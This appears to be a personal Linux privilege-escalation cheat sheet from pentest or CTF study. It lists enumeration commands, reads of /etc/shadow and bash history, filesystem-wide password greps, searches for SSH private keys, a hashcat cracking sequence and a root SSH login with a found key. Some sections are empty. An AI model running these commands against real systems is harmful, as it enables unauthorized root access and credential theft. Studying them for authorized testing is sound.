


## OS Information Gathering
- hostname
- uname -a 
- cat /proc/version
- cat /etc/issue
- lscpu
- ps aux (tgk service running)
- ps aux | grep root (tgk yg run under root)
- whoami
- id
- sudo -l
- cat /etc/passwd
- cat /etc/passwd | cut -d: -f 1
- cat /etc/shadow
- cat /etc/group
- history

## Network Information Gathering
- ifconfig
- ip a
- ip route
- arp -a
- ip neigh
- netstat -ano (check port, communication)

## Password Hunting
- grep —color=auto -rnw ‘/’ -ie “PASSWORD” —color=always 2>dev/null
- grep —color=auto -rnw ‘/’ -ie “PASSWORD=” —color=always 2>dev/null
- locate password | more
- locate passwd | more
- find / -name id_rsa 2>/dev/null
- find / -name authorized_keys  2> /dev/null


## Automated tools
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux Exploit Suggestor](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)

## Kernel Exploits


Tools: [Kernal Exploits](https://github.com/lucyoa/kernel-exploits)

- Get kernal version
  


- Search for exploit
  


- Run Exploit Suggestor
  



## Escalation via Stored Passwords
- history
- cat .bash_history
- [Looting for password](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#checklists)

## Escalation via Weak File Permissions

- weak file permission of shadow file (shadow file should not have read access)
  


- x is the placeholder for password (the password containe within the shadow file)


### Crack Password within shadow file

```bash
nano passwd
nano shadow
unshadow passwd shadow
nano unshadowed [save dalam file]
hashcat -m 1800 hash /usr/share/wordlist/common.txt --show 
```

- Result


- Reference for hash mode : [Hashing Types](https://hashcat.net/wiki/doku.php?id=example_hashes)

## Escalation via SSH Keys

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null (private key)
```

- id_rsa


```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@<ip-address>
```



## Sudo Privilege Escalation


### Exploitation

- [GTFOBin](https://gtfobins.github.io/)
- [Linux PrivEsc Playground](https://tryhackme.com/room/privescplayground)

## Escalation via intended Functionality

- Example : wget (where user usually used to download file)
- If the exploitation not consist within the GTFOBin, the still will be other way to exploit, Google is the keyword.

Example: [wget](https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/)

## Escalation via LD_PRELOAD


What is LD_PRELOAD ?

